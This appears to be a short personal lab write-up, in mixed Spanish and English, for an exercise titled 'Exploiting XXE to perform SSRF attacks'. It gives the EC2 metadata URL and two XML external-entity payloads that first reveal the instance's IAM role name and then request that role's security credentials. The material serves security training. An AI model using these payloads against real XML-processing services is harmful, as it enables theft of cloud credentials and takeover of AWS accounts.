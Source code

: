 ```yaml
---
layout: default
title: 2 - Exploiting XXE to perform SSRF attacks
---
```

Para acceder al server's IAM secret access key from the EC2 metadata : 

```
http://169.254.169.254/latest/meta-data/iam/security-credentials
```

Ver el nombre del rol asignado **IAM Role (rol de AWS IAM)** que está **vinculado a una instancia EC2**. Este rol define **qué permisos tiene esa instancia** para interactuar con otros servicios de AWS : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials">]>
<stockCheck>
	<productId>&test;</productId>
	<storeId>1</storeId>
</stockCheck>
```

```
"Invalid product ID: admin"
```

Obtener las creds del rol : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck>
	<productId>&test;</productId>
	<storeId>1</storeId>
</stockCheck>
```
